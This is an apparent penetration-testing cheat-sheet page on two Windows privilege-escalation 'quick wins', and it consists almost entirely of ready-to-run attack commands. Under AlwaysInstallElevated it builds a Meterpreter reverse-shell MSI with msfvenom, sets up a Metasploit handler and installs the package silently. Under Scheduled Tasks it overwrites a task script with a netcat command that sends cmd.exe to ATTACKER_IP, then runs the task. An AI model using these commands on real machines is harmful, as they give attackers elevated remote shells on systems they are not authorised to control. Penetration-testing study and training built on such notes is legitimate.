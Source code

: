 # Other quick wins

### AlwaysInstallElevated

{% code overflow="wrap" %}
```bash
# Check if both registries are set to 0x1 
CMD> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
CMD> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Revese shell with msi 
Kali> msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 -f msi > /root/Desktop/1.msi

# CMD> upload /root/Desktop/1.msi .

Kali> msf > use exploit/multi/handler
Kali> msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
Kali> msf exploit(handler) > set lhost 192.168.1.120
Kali> msf exploit(handler) > set lport 4567
Kali> msf exploit(handler) > exploit

CMD> msiexec /quiet /qn /i 1.msi
```
{% endcode %}

### Scheduled Tasks

{% code overflow="wrap" %}
```bash
CMD> schtasks /query /tn vulntask /fo list /v
CMD> icacls c:\tasks\schtask.bat 
CMD> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
Kali> nc -nlvp 4444
CMD> schtasks /run /tn vulntask
```
{% endcode %}
